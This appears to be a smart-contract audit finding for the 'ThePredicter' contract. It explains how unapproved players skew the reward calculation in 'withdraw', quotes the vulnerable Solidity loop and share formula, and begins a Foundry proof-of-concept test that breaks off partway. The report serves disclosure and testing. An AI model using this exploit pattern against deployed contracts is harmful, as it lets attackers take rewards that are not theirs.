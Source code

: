 Total shares are calculated incorrectly in `ThePredicter::withdraw` because the attacker is not in the approved players array

```Solidity
for (uint256 i = 0; i < players.length; ++i) {
            int8 cScore = scoreBoard.getPlayerScore(players[i]);
            if (cScore > maxScore) maxScore = cScore;
            if (cScore > 0) totalPositivePoints += cScore;
        }
```

reward for each user will be incorrect

```Solidity
        uint256 shares = uint8(score);
        uint256 totalShares = uint256(totalPositivePoints);
        uint256 reward = 0;

        reward = maxScore < 0
            ? entranceFee
            : (shares * players.length * entranceFee) / totalShares;
```

## POC

Add the following test to ThePredicter.test.sol

```Solidity
function test_unapprovedPredictions() public {
        
        address stranger2 = makeAddr("stranger2");
        address stranger3 = makeAddr("stranger3");
        address attacker = makeAddr("attacker");

        vm.startPrank(stranger);
        vm.deal(stranger, 1 ether);
        thePredicter.register{value: 0.04 ether}();
        vm.stopPrank();

        vm.startPrank(stranger2);
        vm.deal(stranger2, 1 ether);
        thePredicter.register{value: 0.04 ether}();
        vm.stopPrank();

        vm.startPrank(stranger3);
        vm.deal(stranger3, 1 ether);
        thePredicter.register{value: 0.04 ether}();
        vm.stopPrank();

        vm.startPrank(organizer);
        thePredicter.approvePlayer(stranger);
        thePredicter.approvePlayer(stranger2);
        thePredicter.approvePlayer(stranger3);
        vm.stopPrank();

        vm.startPrank(stranger);
        thePredicter.makePrediction{value: 0.0001 ether}(
            1,
            ScoreBoard.Result.Draw
        );
        thePredicter.makePrediction{value: 0.0001 ether}(
            2,
            ScoreBoard.Result.Draw
        );
        thePredicter.makePrediction{value: 0.0001 ether}(
            3,
```
